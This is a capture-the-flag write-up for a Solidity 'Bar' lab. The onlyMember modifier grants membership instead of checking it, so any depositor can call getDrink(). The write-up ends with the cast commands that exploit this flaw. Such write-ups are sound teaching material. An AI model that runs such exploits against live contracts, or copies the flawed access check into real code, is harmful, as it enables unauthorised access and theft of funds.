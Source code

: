 To solve the Lab, we need to make *Setup:;playerSolved()* returns true, here is the code
&nbsp;  
&nbsp;  
```solidity
    function solvedByPlayer() public {
    playerSolved = bar.beerGlass(msg.sender) >= 1 ? true : false;
}

function isSolved() public view returns(bool){
    return playerSolved;
}
```
&nbsp;  
We first need to call the *solvedByPLayer()* function, because that function will update the state of *playerSolved()* bool, after that we can just simply press *Flag* button on the instance. Let's first look for a function that will modify *beerGlass* 
&nbsp;  
&nbsp;  
```solidity
function register() public payable isHuman{
    // You can register here, but still need the Onwer to add you in.
    require(msg.value >= 1e18, "Need 1 ether deposit.");
    balance[msg.sender] += msg.value;
}

function addMember(address _addMember) public isHuman onlyOwner(_addMember){
    require(balance[_addMember] > 0, "You need to deposit some money to become a member.");
    barMember[_addMember] = true;
}

function getDrink() public isHuman onlyMember{
    require(balance[msg.sender] > 0, "You need to deposit some money.");
    require(barMember[msg.sender] == true);
    beerGlass[msg.sender]++;
}
```
&nbsp;  
We have some options there, *register()*, *addMember()* and *getDrink()*, based on what we need we have to call the *getDrink()* but there is a modifier called *onlyMember* and *isHuman* plus we need our balance to be greater than zero. From the function alone, what we can tell is to become a member the *owner* must add the member manually by calling the *addMember()*, we can still call *register()* with the value 1 ether. Let's look the rest of the code now &nbsp;  
&nbsp;  
```solidity
modifier isHuman(){
    require(msg.sender == tx.origin, "Only Human Allowed in this Bar!");
    _;
}

modifier onlyOwner(address _addMember) {
    require(owner == msg.sender, "Only Owner can add Member!");
    _;
}

modifier onlyMember() {
    barMember[msg.sender] = true;
    _;
}

receive() external payable{
    balance[msg.sender] += msg.value;
}
```
&nbsp;  
There are 3 modifiers that exist in the contract, the *isHuman()* modifier ensure that the *msg.sender* is same as *tx.origin*, meaning only EOA can interact with the contract. The *onlyOwner()* has 1 parameter which is *_addMember*. Now *onlyMember()* modifier, it is quite different than another modifier, instead of ensuring a condition, it actually set a condition, especially *msg.sender*, it sets the *barMember[msg.sender]* to become true, this is clearly a flaw by the developer. &nbsp;  
&nbsp;  
Earlier we know that the *getDrink()* function use this modifier, this means what lefts now are giving ourselves some balance either by calling the *register()* function or directly send the contract some balance because it has *receive() external payable* defined there and directly add the amount to our balance. Okay then, the solve should be &nbsp;  
&nbsp;  
```bash
// get the bar contract address
cast call -r $RPC_URL $SETUP_ADDR "bar()"

// send some money to the contract
cast send -r $RPC_URL --private-key $PK $BAR_ADDR --value 1ether

// get ourselves some drink
cast send -r $RPC_URL --private-key $PK $BAR_ADDR "getDrink()"

// call setup.sol::solvedByPlayer()
cast send -r $RPC_URL --private-key $PK $SETUP_ADDR "solvedByPlayer()"
```
&nbsp;  
After that we just need to click Flag, and we should've solved the lab.